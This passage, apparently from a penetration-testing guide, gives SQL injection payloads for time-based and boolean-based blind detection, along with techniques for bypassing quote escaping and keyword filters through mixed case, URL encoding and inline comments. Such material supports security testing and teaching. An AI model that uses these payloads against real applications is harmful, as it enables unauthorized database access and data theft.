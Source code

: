**Time-Based Detection**
```sql
-- Baseline timing
Normal request: 0.2 seconds average response

-- Time-based payload
' AND SLEEP(5)--
Expected response: 5+ seconds delay
```

**Boolean-Based Detection**
```sql
-- True condition payload
product_id=1' AND 1=1--
Expected: Normal product display

-- False condition payload
product_id=1' AND 1=2--
Expected: No product display or error
```

### Detecting Input Sanitization

#### Sanitization Testing Patterns

**Character Filtering Tests**
```sql
-- Single quote filtering
Input: test'
Sanitized: test\'
Bypassed: test\' OR '1'='1--

-- Double quote filtering
Input: test"
Sanitized: test\"  
Bypassed: test\"; SELECT * FROM users--

-- Semicolon filtering
Input: test;
Sanitized: test[removed]
Bypassed: test' UNION SELECT--
```

**Keyword Filtering Tests**
```sql
-- SELECT keyword filtering
Input: SELECT
Filtered: [removed]
Bypassed: SeLeCt, %53%45%4C%45%43%54, UNION/**/SELECT

-- UNION keyword filtering
Input: UNION
Filtered: [removed]
Bypassed: UniOn, %55%4E%49%4F%4E, UN/**/ION
```

